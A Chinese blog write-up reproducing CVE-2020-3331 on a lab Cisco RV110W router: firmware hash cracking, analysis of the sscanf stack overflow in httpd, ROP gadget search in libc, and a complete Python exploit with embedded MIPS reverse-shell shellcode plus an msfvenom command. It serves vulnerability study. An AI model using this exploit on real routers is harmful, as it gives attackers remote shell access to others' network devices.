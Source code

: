 ```yaml
---
title: Cisco RV110W 路由器 CVE-2020-3331 漏洞复现
date: 2024-03-11 16:33:55
tags: [IOT, 路由器， Pwn]
categories: [技术]
excerpt: "IOT Reboot!"
thumbnail: "https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_cisco.jpg.avif"
---
```


某天发现实验室里有这个路由器，是学长留下的，那这不日日都说不过去了吧

参考：

[思科路由器 RV110W CVE-2020-3331 漏洞复现](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

### Start

首先可以拿到该设备的固件，解包固件可以找到 `/etc/shadow` 里面存的 admin 用户的密码 hash

`/sbin/rc` :

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_rc.png.avif)

使用 hashcat 可以对该 hash 进行爆破，需要事先准备一份弱密码字典，最后爆出来 密码是 `Admin123` 。有了密码，就能直接通过 telnet 远程连上路由，这样有 shell 比较方便复现漏洞

搜索 `login.cgi` 路由，以确定 web 服务器程序是哪一个

```bash
grep -rn "login.cgi" * 2>/dev/null
# 递归搜索关键字，并将stderr重定向到null
# '*' 表示搜索所有文件
# r 表示递归，n 表示显示行号
```

最终确定是 `/sbin/httpd`

分析 `/sbin/httpd` 程序中的 `guest_logout_cgi()` ，发现危险函数 `sscanf()`

```c
  v5 = (const char *)get_cgi("cmac");
  v7 = get_cgi("cip");
  v6 = (const char *)get_cgi("cip");
  for ( j = (char *)(v7 + strlen(v6) - 1); get_cgi("cip") < (unsigned int)j; *j-- = 0 )
  {
    v9 = *j;
    if ( v9 != 10 && v9 != 13 && v9 != 32 )
      break;
  }
  v10 = (const char *)get_cgi("cip");
  v11 = (const char *)get_cgi("submit_button");
  if ( !v11 )
    v11 = "";
  if ( v5 && v10 )
  {
    memset(v29, 0, 0x40u);
    memset(v28, 0, sizeof(v28));
    v12 = fopen("/dev/console", "w");
    v13 = v12;
    if ( v12 )
    {
      fprintf(v12, "\n  mac=[%s], ip=[%s], submit_button=[%s]\n", v5, v10, v11);
      fclose(v13);
    }
    if ( VERIFY_MAC_17(v5) && VERIFY_IPv4(v10) ) //MAC 和 IP 有效
    {
      if ( !strstr(v11, "status_guestnet.asp") ) //submit_button 包含 status_guestnet.asp
        goto LABEL_31;
      sscanf(v11, "%[^;];%*[^=]=%[^\n]", v29, v28);  
```

这个 `sscanf` 是在从`v11`正则匹配存到 `v29` `v28` ，存在栈溢出漏洞

匹配规则：`%`表示要，`%*`表示不要

- `%[^;]` 分号前面的所有字符都要，存在 `v29`
- `;%*[^=]` 分号后等号前所有的东西都不要
- `=%[^\n]` 等号后所有东西都要，存在 `v28`

比如 `aaa;bbb=ccc` 就是`aaa`和`ccc`被提取出

其实这个匹配不重要，此时 v11 就是 `submit_button=` 后面的值

故分析程序路径要到达这个 sscanf 得有三个参数且满足对应的要求：

1. cmac：MAC 地址格式
2. cip：IP 地址格式
3. submit_button: 包含 status_guestnet.asp

我们可以传输超长的 submit_button 项来测试是否会溢出，另外两个 cmac 和 cip 都有格式检测，唯有 submit_button 只需要包含字符串 `status_guest.asp` 即可

可以写一个 python 脚本来发包看看：

```py
import requests

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*100,"cip":"192.168.1.100"}
#requests.get(url, data=payload, verify=False, timeout=1)
requests.post(url, data=payload, verify=False, timeout=1)
```

post 上去之后，web 页面就无法访问了，为了得到更多的细节，我们可以传一个 gdbserver 上去远程调试

[https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/静态编译调试程序/gdbserver](https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/%E9%9D%99%E6%80%81%E7%BC%96%E8%AF%91%E8%B0%83%E8%AF%95%E7%A8%8B%E5%BA%8F/gdbserver)

```bash
./gdbserver --attach 0.0.0.0:1234 515 # httpd pid
```

经过调试，执行到 `sscanf` 时，v29 会匹配到 `submit_button` 的值，如果后面不加更多参数的话 v28 什么都匹配不到

v29 正好是该函数栈最底端的数据，紧接 fp 和 pc，那么覆盖 pc 将非常容易

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_stack.png.avif)

```bash
pwndbg> distance 0x7fcc839c 0x7fcc8404
0x7fcc839c->0x7fcc8404 is 0x68 bytes (0x1a words)
# len("status_guestnet.asp") == 19
# 0x68-19 = 85
```

所以填充长度为85

```python
payload = b"status_guestnet.asp"+b'a'*85+p32(pc)
```

mips 没有 nx ，所以可以 shellcode in stack

如下图，函数退出时，这些寄存器都可以自由控制

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_ida.png.avif)

首先得找到合适的 gadget, 把栈地址给寄存器，然后再跳到寄存器

不能使用程序本身的 gadget，因为程序的地址有`\x00` ，发过去就截断了，所以考虑使用 libc

经过调试发现 libc 的地址是固定的，并没有随机化，固定为 0x2af98000，可以在 libc 中查找 gadget

```bash
# stackfind 表示查找给寄存器赋栈地址值的 gadget,同时使用 move $t9 过滤跳转寄存器指令
ROPgadget --binary libc.so --mipsrop "stackfinder"|grep 'move $t9'
#0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
# 该 gadget 将 sp+0x28 赋给a0，然后跳转到 s1,注意这里向前提了一条是防止地址有\x00
ROPgadget --binary libc.so |grep 'move $t9, $a0'
#0x0003d050 : move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9 ; addiu $a0, $sp, 0x18
# 跳转到栈地址
```

至于控制各寄存器的栈偏移位置可以用 `cyclic()` `cyclic_find()`测算

shellcode 的功能是反弹shell，所以开一个端口进行监听，shellcode 可以用[这个](http://shell-storm.org/shellcode/files/shellcode-860.php)，也可以用 msf 生成，我选择用 msf

```bash
msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=10.10.10.100 LPORT=31337 --arch mipsle --platform linux -f py -o shellcode.py
```

### exp

```python
from pwn import *
import thread,requests
context(arch='mips',endian='little',os='linux')
io     = listen(31337)
libc   = 0x2af98000

jmp_s0 = libc + 0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
jmp_a0 = libc + 0x0003D050 # move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9

shellcode = b"\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += b"\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += b"\xf8\xff\xa5\xaf\x0a\x64\x05\x3c\x0a\x0a\xa5\x34\xfc\xff\xa5\xaf"
shellcode += b"\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += b"\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += b"\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += b"\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += b"\xab\x0f\x02\x24\x0c\x09\x09\x01"

# offset for s0: 49
#s1: 53
#s2: 57

payload = b"status_guestnet.asp" +b'a'*49+p32(jmp_a0)+32*b'a'+p32(jmp_s0)+0x28*b'a'+shellcode
#payload += cyclic(100)
paramsPost = {"cmac":"12:af:aa:bb:cc:dd","submit_button":payload,"cip":"10.10.10.100"}

def attack():
    try: requests.post("https://10.10.10.1/guest_logout.cgi", data=paramsPost, verify=False,timeout=1)
    except: pass

thread.Thread(attack,()).run()
io.wait_for_connection()
log.success("getshell")
io.interactive()

# reg 0x0431B58
#0x431bb0
```

[https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

其实我贴的这个文章中有一个错误，其选择的 libc gadget 0x000257A0 有一个指令为

```nasm
sw     $v0, 0x18($sp)
```

而 `$sp+0x18` 正好是他写 shellcode 的地方，此时 v0 为 0，这个指令会让 shellcode 第一条指令
`slti $a0, $zero, 0xFFFF` 变成 `nop`，导致第一个 syscall：close(stdin) 实际上没有正常执行